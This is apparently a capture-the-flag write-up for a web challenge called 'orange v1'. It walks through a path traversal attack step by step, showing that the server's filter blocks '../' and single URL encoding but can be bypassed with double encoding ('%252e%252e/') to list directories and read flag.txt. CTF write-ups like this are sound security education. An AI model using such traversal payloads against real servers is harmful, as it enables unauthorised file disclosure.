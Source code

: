 # orange v1

The challenge starts with a URL.

**http://web.chal.csaw.io:7311/?path=orange.txt**
```
	i love oranges
```
From the URL, we can guess that this webserver is appending the value of **path** and using it to retrieve text files.

**http://web.chal.csaw.io:7311/?path=** 
```
	Directory listing for /poems/
	burger.txt
	haiku.txt
	orange.txt
	ppp.txt
	the_red_wheelbarrow.txt
```
After inspecting all of these txts, I couldn't find the flag, and figured it must be in some other directory. Since there were no sub-directories, there was nowhere to go but up.

**http://web.chal.csaw.io:7311/?path=../**
```
	WHOA THATS BANNED!!!!
```
Hm, it seems to be doing some kind of filtering to prevent people from looking around.

So I tried encoding it to make it harder to detect.

**http://web.chal.csaw.io:7311/?path=%2e%2e%2f**
```
	WHOA THATS BANNED!!!!
```
Alright, seems like they check for that.

But, did they account for someone double encoding it?

**http://web.chal.csaw.io:7311/?path=%252e%252e/**
```
	Directory listing for /poems/../
    
	.dockerignore
	back.py
	flag.txt
	poems/
	serve.sh
	server.js
```
Apparently they didn't.

Found the location of the flag, now we just have to get it.

**http://web.chal.csaw.io:7311/?path=%252e%252e/flag.txt**
```
	flag{thank_you_based_orange_for_this_ctf_challenge}
```